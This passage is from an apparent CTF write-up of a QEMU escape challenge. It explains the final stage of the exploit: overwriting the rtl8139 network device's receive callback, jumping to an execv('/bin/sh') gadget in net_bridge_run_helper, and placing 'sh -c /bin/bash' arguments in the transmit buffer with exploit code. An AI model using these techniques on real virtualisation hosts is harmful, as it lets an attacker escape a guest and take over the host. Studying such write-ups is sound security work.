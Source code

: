 #### 6.6 Get Shell

To control RIP, I chose to modify global variable `net_rtl8139_info` because we can control the timing of the `.receive` callback [1] invocation.

```c
static NetClientInfo net_rtl8139_info = {
    // [...]
    .receive = rtl8139_receive, // [1]
    // [...]
};
```

When rtl8139 transmits data, `nc_sendv_compat()` is called internally, which in turn invokes `net_rtl8139_info.receive()`. Fortunately, when `->receive()` is called, the second parameter is the tx data buffer, which means we can control its content.

```c
static ssize_t nc_sendv_compat(NetClientState *nc, const struct iovec *iov,
                               int iovcnt, unsigned flags)
{
    // [...]
    ret = nc->info->receive(nc, buffer, offset);
    // [...]
}
```

With some difficulty I found a magic gadget within `net_bridge_run_helper()`. It execute command "/bin/sh" with argument list (`args`).

```c
static int net_bridge_run_helper(/* ... */)
{
    // [...]
    execv("/bin/sh", args);
    // [...]
}
```

In order to spawn a bash shell, I setup `"sh -c /bin/bash"` arguments in the tx data buffer.

```c
unsigned long str_sh = text + 0xdc2131;
unsigned long str_dash_c = text + 0xdc2134;

*(unsigned long *)(txbuf + 0x00) = str_sh;
*(unsigned long *)(txbuf + 0x08) = str_dash_c;
*(unsigned long *)(txbuf + 0x10) = (heap + 0x1282a60) + 0x80; // ----
*(unsigned long *)(txbuf + 0x18) = 0;                         //    |
                                                              //    |
*(unsigned long *)(txbuf + 0x80) = 0x7361622f6e69622f; // <----------
*(unsigned long *)(txbuf + 0x88) = 0x68;
```

Finally, the next time we transmit data using rtl8139, the `net_rtl8139_info.receive()` function will be called. This will execute the command `/bin/sh -c /bin/bash`, giving us a bash shell!

You can find the exploit [here](/assets/hitconctf-qual-2024-reEscape-exp.c).

